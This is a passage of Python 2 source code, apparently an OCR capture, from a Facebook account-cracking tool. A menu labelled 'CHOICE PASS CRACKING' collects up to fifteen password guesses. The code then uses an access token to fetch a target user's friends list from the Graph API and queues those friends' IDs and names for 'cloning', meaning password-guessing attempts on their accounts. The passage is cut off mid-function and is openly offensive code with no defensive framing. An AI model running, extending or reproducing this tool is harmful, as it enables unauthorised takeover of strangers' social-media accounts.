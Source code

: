         ps11 = raw_input('[11] Digit : ')
        ps12 = raw_input('[12] Digit : ')
        ps13 = raw_input('[13] Digit : ')
        ps14 = raw_input('[14] Digit : ')
        ps15 = raw_input('[15] Digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     CHOICE PASS CRACKING'
            print '\x1b[1;97m======================================================='
            print '[+] CLONING FROM : \x1b[1;92m' + q['name']
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            choice()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rishu == '2':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;97m======================================================='
        ps = raw_input('[1] Digit : ')
        ps2 = raw_input('[2] Digit : ')
        ps3 = raw_input('[3] Digit : ')
        ps4 = raw_input('[4] Digit : ')
        ps5 = raw_input('[5] Digit : ')
        ps6 = raw_input('[6] Digit : ')
        ps7 = raw_input('[7] Digit : ')
        ps8 = raw_input('[8] Digit : ')
        ps9 = raw_input('[9] Digit : ')
        ps10 = raw_input('[10] Digit : ')
        ps11 = raw_input('[11] Digit : ')
        ps12 = raw_input('[12] Digit : ')
        ps13 = raw_input('[13] Digit : ')
        ps14 = raw_input('[14] Digit : ')
        ps15 = raw_input('[15] Digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        